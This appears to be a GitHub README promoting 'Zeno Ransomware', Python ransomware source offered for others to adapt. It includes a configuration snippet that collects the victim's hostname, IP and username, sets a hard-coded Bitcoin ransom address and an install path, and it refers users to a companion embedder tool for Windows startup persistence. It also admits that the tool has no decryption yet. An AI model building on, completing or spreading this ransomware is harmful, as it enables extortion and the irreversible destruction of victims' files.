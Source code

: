 ![alt text](https://github.com/Zurek0x/zeno_Hijacker/blob/main/media/Screenshot_1.png?raw=true)
# Zeno Ransomware / Ransomware Written in Python
This is a simple ransomware source written in Python, With file encryption
and file decryption, Along with a lot of usability and comfort and ability to adapt
the code to your liking.

# Notice Errors
> * **To do:**
> * **Scan All Directories in C Drive**
> * **Scan Specific Directories in C Drive**
> * **Add Priority Directories in C Drive**

# Fix
> * **Add Decryption Methods, NONE AT THE MOMENT**

# Usage (Pieces of code, Look in Source)
![alt text](https://github.com/Zurek0x/zeno_RansomWare/blob/main/media/drg.png?raw=true)
```python
# =?/Settings/?= #
hostname=socket.gethostname()    # Get Hostname
IPAddr=socket.gethostbyname(hostname)   # Get IP

root = tk.Tk()
canvas = Canvas()
screensize = [f'{GetSystemMetrics(0)}', f'{GetSystemMetrics(1)}'] # Get resolution of monitor (1920x1080)
btc_wallet=str("bc1qgvsjxmw0t6jcezdxjg7n4yu08t5skm2f36zemt") # Bitcoin Addr to show on Msg
auto_decrypt = int(0) # Developer Stuff

user = os.getlogin() # Get Username of PC Directory (users)
cache_path=str(f"C:\\Users\\{user}\\Documents\\230") # Path to install the virus too ( MUST HAVE \\ not \ )
cache_name=str(f"encrypted.txt") # Cache file name to read and write too
cache_mem=[] # !DO NOT TOUCH THIS!
```
**You may want to change this depending on what your code does, Keep in mind of permission issues**
**handles read and write of file in class function.**
# Starting up with windows and extra stuff
To use these features you must import the code into zeno_Embedder which is a tool to do exactly this -> https://github.com/Zurek0x/zeno_Embedder
